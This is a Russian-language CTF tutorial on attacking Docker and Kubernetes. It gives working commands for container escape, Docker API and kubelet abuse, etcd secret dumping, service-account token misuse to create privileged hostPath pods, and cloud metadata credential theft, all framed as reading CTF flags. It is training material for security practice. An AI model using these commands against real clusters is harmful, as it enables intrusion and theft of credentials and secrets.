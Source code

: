 ### Расширенный разбор Docker в CTF

#### Механика контейнеризации и точки входа
Docker использует Linux-механизмы для изоляции:
- **Namespaces**: Изолируют процессы (PID), сеть (NET), файловую систему (MNT).
- **Cgroups**: Ограничивают ресурсы (CPU, память).
- **Capabilities**: Определяют привилегии (например, `CAP_SYS_ADMIN`).

В CTF часто встречаются задачи, где эти механизмы настроены некорректно, что позволяет "вырваться" из контейнера.

##### Пример: Выход за пределы контейнера через Capabilities
Если контейнер запущен с расширенными capabilities (например, `CAP_SYS_PTRACE`), можно вмешаться в процессы хоста:
```bash
ls -l /proc/1/exe  # Проверяем доступ к хост-процессам
ptrace -p 1  # Прицепляемся к init-процессу хоста
```
Если `CAP_SYS_ADMIN` включен, попробуйте манипулировать ядром:
```bash
echo 0 > /proc/sys/kernel/yama/ptrace_scope  # Отключаем защиту
```

##### Docker Bench Security
В реальных системах используют инструменты вроде `docker-bench-security` для аудита. В CTF вы можете сами проверить:
- Есть ли `--pid=host` или `--network=host`?
- Монтируется ли `/` или `/etc`?

#### Эксплуатация через Dockerfile
Иногда в задаче дают доступ к `Dockerfile`. Ищите уязвимости:
- **EXPOSE**: Открытые порты могут указывать на сервисы.
- **COPY**: Файлы, скопированные в контейнер, могут содержать флаг.
- **RUN**: Команды могут оставлять следы (например, `echo FLAG > /flag`).

Пример:
```dockerfile
FROM ubuntu
RUN echo "CTF{docker_leak}" > /secret.txt
CMD ["/bin/bash"]
```
Проверяйте:
```bash
cat /secret.txt
```

#### Docker API exploitation
Если вы нашли доступ к Docker API (например, через порт 2375), можно управлять хостом:
```bash
curl -X GET http://localhost:2375/containers/json  # Список контейнеров
curl -X POST http://localhost:2375/containers/create -d '{"Image": "alpine", "Cmd": ["cat", "/host/flag.txt"], "Binds": ["/:/host"]}'
```
Запустите контейнер и получите результат.

---

### Глубокий разбор Kubernetes в CTF

#### Архитектура Kubernetes
Понимание компонентов K8s критично для CTF:
- **API Server**: Центральный узел управления (порт 6443 или 443).
- **etcd**: Хранилище конфигураций и Secrets (порт 2379).
- **Kubelet**: Агент на нодах (порт 10250).
- **Pod**: Минимальная единица, содержащая контейнеры.

#### Расширенные векторы атак

##### 1. Атака через etcd
Если в задаче доступен порт 2379 (etcd), вы можете извлечь все данные кластера:
```bash
etcdctl --endpoints=http://127.0.0.1:2379 get --prefix /registry
```
Флаги часто хранятся в Secrets:
```bash
etcdctl --endpoints=http://127.0.0.1:2379 get /registry/secrets/default/flag-secret
```

##### 2. Kubelet exploitation
Kubelet (порт 10250) иногда открыт без аутентификации. Проверяйте:
```bash
curl -k https://<node-ip>:10250/pods
```
Если доступ есть, создайте Pod или выполните команду в существующем:
```bash
curl -X POST -k https://<node-ip>:10250/run/<namespace>/<pod>/<container> -d "cmd=cat+/flag.txt"
```

##### 3. Service Account Token Abuse
Токены сервисных аккаунтов — золотая жила в K8s-задачах. Они монтируются по умолчанию, если не отключены (`automountServiceAccountToken: false`). Используйте их для:
- Перечисления ресурсов:
  ```bash
  curl -k -H "Authorization: Bearer $TOKEN" https://kubernetes.default.svc/api/v1/namespaces/default/pods
  ```
- Создания привилегированного Pod’а:
  ```bash
  cat <<EOF | curl -k -H "Authorization: Bearer $TOKEN" -X POST https://kubernetes.default.svc/api/v1/namespaces/default/pods -d @-
  {
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {"name": "pwn"},
    "spec": {
      "containers": [
        {
          "name": "pwn",
          "image": "ubuntu",
          "command": ["bash", "-c", "cat /host/flag.txt"],
          "volumeMounts": [{"name": "host", "mountPath": "/host"}]
        }
      ],
      "volumes": [{"name": "host", "hostPath": {"path": "/"}}]
    }
  }
  EOF
  ```

##### 4. Misconfigured Metadata API
В облачных провайдерах (AWS, GCP) Pod’ы могут обращаться к Metadata API. Например, в AWS:
```bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
Если роль IAM настроена неправильно, вы получите ключи для доступа к другим ресурсам.

##### 5. Sidecar-контейнеры
Иногда в Pod’е есть дополнительные контейнеры (sidecars). Проверяйте их:
```bash
kubectl describe pod <pod-name>
```
Если один из них привилегирован, используйте его для атаки.

---

#### Инструменты для анализа K8s
- **kubectx/kubens**: Быстрое переключение контекстов и namespace’ов.
- **k9s**: Терминал для управления кластером.
- **Trivy**: Сканер уязвимостей в контейнерах.
- **Metasploit**: Модули для Docker/K8s (например, `exploit/linux/http/docker_daemon_tcp`).

---

### Сложные сценарии CTF

#### Сценарий 1: Docker + K8s + Web
Вы подключаетесь к веб-приложению в контейнере:
```bash
curl http://app.local
```
Находите LFI (Local File Inclusion):
```bash
curl http://app.local/file?path=/proc/self/environ
```
Из переменных окружения получаете токен K8s (`KUBERNETES_SERVICE_TOKEN`). Используете его для создания Pod’а и чтения `/flag.txt` на хосте.

#### Сценарий 2: CRI-O вместо Docker
Вместо Docker используется CRI-O (альтернативный контейнерный runtime). Проверяйте:
```bash
crictl ps  # Список контейнеров
crictl exec -it <container-id> /bin/sh
```
Если CRI-O настроен с `--privileged`, выходите на хост через `/proc`.

#### Сценарий 3: Taint/Toleration Abuse
В задаче вы видите, что мастер-нода доступна для запуска Pod’ов (нет taint’ов). Создайте Pod с `nodeName: master`:
```yaml
spec:
  nodeName: master
  containers:
  - name: pwn
    image: alpine
    command: ["cat", "/etc/kubernetes/admin.conf"]
```
Извлеките конфиг и получите полный контроль.

---

### Практические советы
1. **Логи**: Проверяйте `/var/log` в контейнере или Pod’е — там могут быть подсказки.
2. **Kernel exploits**: Если версия ядра устарела (узнать через `uname -r`), ищите эксплойты (например, Dirty COW).
3. **Debugging**: Используйте `strace` или `gdb` для анализа бинарников внутри контейнера.

---

### Дополнительные ресурсы
- **HackTricks**: hacktricks.xyz (разделы Docker/Kubernetes).
- **PayloadsAllTheThings**: github.com/swisskyrepo/PayloadsAllTheThings (K8s Exploits).
- **CTFtime**: Архив задач с облачными темами.

### Задачи для практики
- **Kubernetes Goat** (github.com/madhuakula/kubernetes-goat)
	Коллекция уязвимых K8s-сценариев с пошаговыми решениями.
- **TryHackMe** (tryhackme.com)  
	Комнаты: "Kubernetes Basics", "Docker Security".
- **CTFtime** (ctftime.org)  
	Архив задач с прошедших соревнований (фильтр по "cloud" или "container").
